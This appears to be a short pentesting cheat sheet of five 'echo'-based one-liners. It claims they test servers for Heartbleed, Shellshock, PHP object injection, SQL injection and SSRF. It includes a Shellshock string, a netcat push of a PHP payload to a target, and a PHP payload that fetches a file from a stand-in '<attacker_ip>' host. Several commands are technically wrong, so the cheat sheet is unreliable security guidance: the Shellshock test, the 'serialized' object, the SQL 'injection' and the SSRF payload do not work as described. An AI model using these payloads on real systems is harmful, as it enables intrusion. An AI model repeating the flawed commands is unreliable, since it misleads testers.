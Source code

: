 Here are some examples of using the echo command for pentesting:
<br>
<br>
1. Testing if a server is vulnerable to Heartbleed SSL vulnerability:
```
echo -e "HELO \nQUIT" | openssl s_client -connect <target_host>:<target_port> -tlsextdebug 2>&1 | grep 'server extension "heartbeat" (id=15)'
```
*This command sends a specially crafted message to the server and checks if it responds with the "heartbeat" server extension, indicating that it is vulnerable to the Heartbleed SSL vulnerability.*

2. Checking if a target is vulnerable to Shellshock:
```
echo "() { :; }; echo vulnerable" | bash -c "echo this is a test"
```
*This command sends a specially crafted environment variable to the target's Bash shell and checks if it responds with the word "vulnerable", indicating that it is vulnerable to the Shellshock vulnerability.*

3. Testing if a target is vulnerable to PHP Object Injection:
```
echo '<?php class Test { public $cmd = "ls -la"; function __destruct() { system($this->cmd); } } $t = new Test; unserialize(serialize($t)); ?>' > payload.txt
cat payload.txt | nc -nv <target_host> <target_port>
```
*This command sends a specially crafted serialized PHP object to the target and checks if it executes the command "ls -la", indicating that it is vulnerable to PHP Object Injection.*

4. Checking if a target is vulnerable to SQL injection:
```
echo "SELECT * FROM users WHERE id=1 OR 1=1; --" | mysql -h <target_host> -u <username> -p<password> <database_name>
```
*This command sends a SQL query to the target's MySQL database and checks if it returns all records from the "users" table, indicating that it is vulnerable to SQL injection.*

5. Testing if a target is vulnerable to Server-Side Request Forgery (SSRF):
```
echo "<?php echo file_get_contents('http://<attacker_ip>/secret_file.txt'); ?>" > payload.php
curl -X POST -d "@payload.php" <target_url>
```
*This command sends a PHP payload to the target's server and checks if it sends a request to the attacker's server to retrieve a secret file, indicating that it is vulnerable to SSRF.*


